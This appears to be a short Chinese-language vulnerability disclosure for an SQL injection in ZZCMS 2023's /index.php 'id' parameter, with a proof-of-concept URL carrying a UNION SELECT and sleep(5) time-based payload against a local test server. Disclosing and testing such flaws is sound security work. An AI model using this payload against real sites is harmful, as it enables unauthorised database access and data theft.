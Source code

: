 # zzcms系统接口index.php存在SQL注入漏洞

ZZCMS 2023中发现了一个严重漏洞。该漏洞影响了文件/index.php中的某些未知功能,操纵参数id会导致SQL注入,攻击可能是远程发起的,该漏洞已被公开披露并可被利用。 

## poc

```javascript
http://127.0.0.1:8888/zhanting/index.php?id=1'union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,sleep(5)+--+x&skin=

```

![image-20250124101356743](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501241013807.png)

## 漏洞来源

- https://github.com/En0t5/vul/blob/main/zzcms/zzcsm-sql-inject.md